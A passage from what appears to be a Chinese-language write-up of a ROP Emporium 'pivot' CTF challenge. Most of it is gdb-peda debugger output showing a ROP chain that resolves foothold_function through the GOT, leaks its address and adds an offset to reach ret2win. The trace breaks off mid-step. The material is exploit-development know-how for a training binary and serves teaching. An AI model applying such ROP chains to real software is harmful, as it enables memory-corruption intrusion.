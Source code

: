 ```
 | 0x8048600 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804a028
 | 0x8048606 <__libc_start_main@plt+6>: push   0x38
 |->   0x80485f6 <foothold_function@plt+6>:     push   0x30
       0x80485fb <foothold_function@plt+11>:    jmp    0x8048580
       0x8048600 <__libc_start_main@plt>:       jmp    DWORD PTR ds:0x804a028
       0x8048606 <__libc_start_main@plt+6>:     push   0x38
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0004| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0008| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0012| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0016| 0xf755cf24 --> 0x1f7 
0020| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0024| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0028| 0xf755cf30 --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080485f0 in foothold_function@plt ()
```
成功跳转到 `foothold_function@plt`，接下来系统通过 `_dl_runtime_resolve` 等步骤，将真正的地址写入到 `.got.plt` 中，我们构造 gadget 泄露出该地址地址，然后计算出 `ret2win()` 的地址，调用它，就成功了。

地址泄露的过程：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x54 ('T')
EBX: 0x0 
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf18 --> 0x804a024 --> 0xf7772770 (<foothold_function>:      push   ebp)
EIP: 0x80488c0 (<usefulGadgets>:        pop    eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488ba:   xchg   ax,ax
   0x80488bc:   xchg   ax,ax
   0x80488be:   xchg   ax,ax
=> 0x80488c0 <usefulGadgets>:   pop    eax
   0x80488c1 <usefulGadgets+1>: ret    
   0x80488c2 <usefulGadgets+2>: xchg   esp,eax
   0x80488c3 <usefulGadgets+3>: ret    
   0x80488c4 <usefulGadgets+4>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]
0000| 0xf755cf18 --> 0x804a024 --> 0xf7772770 (<foothold_function>:     push   ebp)
0004| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0008| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0012| 0xf755cf24 --> 0x1f7 
0016| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0020| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0024| 0xf755cf30 --> 0xa ('\n')
0028| 0xf755cf34 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488c0 in usefulGadgets ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x804a024 --> 0xf7772770 (<foothold_function>:     push   ebp)
EBX: 0x0 
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0 
```